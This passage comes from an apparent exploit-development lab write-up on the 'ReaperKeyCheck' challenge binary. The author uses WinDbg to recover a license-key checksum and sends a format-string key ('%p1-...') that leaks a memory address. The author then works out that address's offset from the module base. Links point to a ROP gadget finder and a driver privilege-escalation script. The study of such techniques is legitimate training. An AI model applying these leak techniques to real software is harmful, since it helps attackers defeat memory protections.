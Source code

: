 I sent **%p1-FE9A1-500-A270-0102-U3RhbmRhcmQgTGljZW5zZQ==** again, but this time observed the checksum I sent, which should equal `0x66`, which it did:

```
0:003> g
Breakpoint 0 hit
ReaperKeyCheck+0x18ca:
00007ff7`aefa18ca 488d0d27ed0100  lea     rcx,[ReaperKeyCheck+0x205f8 (00007ff7`aefc05f8)]
0:003> r edx
edx=66
```

I then stepped through the code to observe what the checksum should be:

```
0:003> p
ReaperKeyCheck+0x18da:
00007ff7`aefa18da 488d0d37ed0100  lea     rcx,[ReaperKeyCheck+0x20618 (00007ff7`aefc0618)]
0:003> r edx
edx=9b
```

Wallop! I now had valid key with which I could possibly leak a memory address, I tested this with **%p1-FE9A1-500-A270-0155-U3RhbmRhcmQgTGljZW5zZQ==**:

```
Enter a key: %p1-FE9A1-500-A270-0155-U3RhbmRhcmQgTGljZW5zZQ==
Valid key format
Choose an option:
1. Set key
2. Activate key
3. Exit
```

I observed a valid key, and sent **option 2**:

```
2
Checking key: 00007FF7AEFC06601-FE9A1, Comment: Standard License
Could not find key!
Choose an option:
1. Set key
2. Activate key
3. Exit
```

I now had a memory leak of `00007FF7AEFC0660`. I calculated the offset of the memory leak from the module base address:

```
0:001> ?00007FF7AEFC0660-ReaperKeyCheck
Evaluate expression: 132704 = 00000000`00020660
```

> [!TIP]
>
> What I learned from this exercise is that sometimes you don't have to spend a lot of time statically reverse engineering assembly code, such as the checksum instructions. By observing general purpose registers during dynamic analysis this gave me the information I needed.


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"